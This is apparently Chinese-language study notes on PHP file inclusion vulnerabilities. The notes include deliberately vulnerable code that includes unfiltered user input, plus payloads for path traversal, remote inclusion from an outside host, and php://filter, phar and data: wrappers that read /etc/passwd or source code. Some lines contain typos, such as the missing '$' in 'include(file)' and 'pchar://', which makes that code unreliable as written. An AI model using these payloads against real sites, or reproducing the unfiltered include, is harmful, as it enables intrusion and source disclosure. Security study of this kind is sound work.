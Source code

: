 ### **文件包含函数**

文件包含函数 | 返回值 | 限制
---------|----------|---------
 include() | 包含出错，只是提示但是后续依然执行代码 | 不限制
 require() | 包含出错，直接退出，不执行后续代码 | 不限制
 include_once() | 同include | 不能包含已经包含过的文件
 require_once() | 同require | 不能包含已经包含过的文件

 ### **文件包含代码**
 #### 漏洞代码
 ```php
 <?php 
 $file=$_GET['file'];
 include(file);
 ?>
 //file获取未做任何过滤
 ```
#### 攻击代码a.php
##### 使用4个文件包含函数包含文件，与文件后缀无关，txt，png文件后缀依然能够当成php代码解析
```php
<?php 
phpinfo();
?>
```
### 文件包含分类
#### 本地文件包含LFI
- a.php存放在本地
- payload
  - ../../../../../a.php
- 执行效果
  - 成功解析phpinfo
#### 远程文件包含
- 前提条件
```
php.ini配置文件中两个开关必须同时打开（注意是必须同时）
allow_url_fopen=on
allow_url_include=on
```
- a.php存放在远程远程服务器，例:1.1.1.1
- payload
   - http://1.1.1.1/a.php
- 执行效果
   - 成功解析phpinfo
  #### php伪协议
- 前置
   - 不同的协议拥有不同的前置条件
- payload
   - file//etc/passwd
   - http://1.1.1.1/a.php
   - php://filter/convert.base64-encode/resource=a.php
   - pchar://1.1.1.1/test.zip/a.php
   - data:text/plain,<?php phpinfo();?>
- 执行效果
   - 成功解析phpinfo
   - php://filter返回php代码的base64编码内容，可反向编码获取php代码
  
php伪协议 | 用途 | 常用敏感文件|allow_url_include | allow_url_fopen
---------|----------|---------|---------|---------
 file:// | 访问本地文件系统 |/etc/passwd| 无 | 无
 php://input |直接读取POST请求的没有经过解析的原始数据，可以理解为POST请求的body参数，且只能为字符串不能为键值对；file_get_contents可利用| on | 无
 php://filter| | 无 | 无
  phar://| php解压压缩包的伪协议，无论什么后缀都可以当成压缩包解压| 无 | 无
   data://| 数据流封装器| on | on